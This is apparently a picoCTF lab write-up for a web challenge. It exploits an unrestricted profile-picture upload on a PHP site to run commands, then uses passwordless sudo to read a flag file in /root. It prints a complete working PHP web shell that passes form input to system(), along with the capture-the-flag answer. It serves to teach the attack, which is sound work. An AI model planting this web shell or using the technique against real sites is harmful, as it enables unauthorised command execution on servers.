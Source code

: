 # n0s4n1ty1

## Web

### A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the /root directory.

Going to the landing page shows were we can do the upload.

![landing](./landing.png)

I don't see anything specifying a file type to upload so I tried anything (a text file) to see what happens.

![text_file_up](./text_file_up.png)

It accepted it.  Great for us, bad for them.  There's two pieces of information on this page that are interesting.  One, the path to the file we uploaded, and two, from the URL we can see that PHP is being used for the site.  Let's go to the path and see if we can get to our file.

![text_file_out](./text_file_out.png)

Viola!  At this point I want to see if I can upload a PHP file.

I have these types of files saved up, but if I didn't I'd search Google.

![google](./google_search.png)

From the highlighted link you can see which one I chose.

```php
<?
//
// PHP_KIT
//
// cmd.php = Command Execution
//
// by: The Dark Raver
// modified: 21/01/2004
//
?>
<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<?
if($_GET['cmd']) {
  system($_GET['cmd']);
  }
?>
</pre>
</BODY></HTML>

```

This bit of code will take text input from a PHP form and run it as a system command.  Basically giving us command line access.

I saved that file and uploaded it.

![cmd_up](./cmd_up.png)

And when we follow the link instead of getting text back the file gets executed!

![cmd](./cmd.png)

Now we look for the flag!  The instructions said it's in the /root directory...
First I tried to `cd` to /root.  That's where I found when a command fails it will have no output.

Let's look at the permissions of /root

![ls_root](./ls_root.png)

Ok, we're not getting anywhere unless there's a means of being root.  Let's see if we're allowed to `sudo`

![sudo](./sudo.png)

Yes!  We can use `sudo` for any command without a password! I'm going to use `sudo cat /root/flag.txt`

![sudo cat](./sudo_cat.png)

**picoCTF{wh47_c4n_u_d0_wPHP_712a9451}**






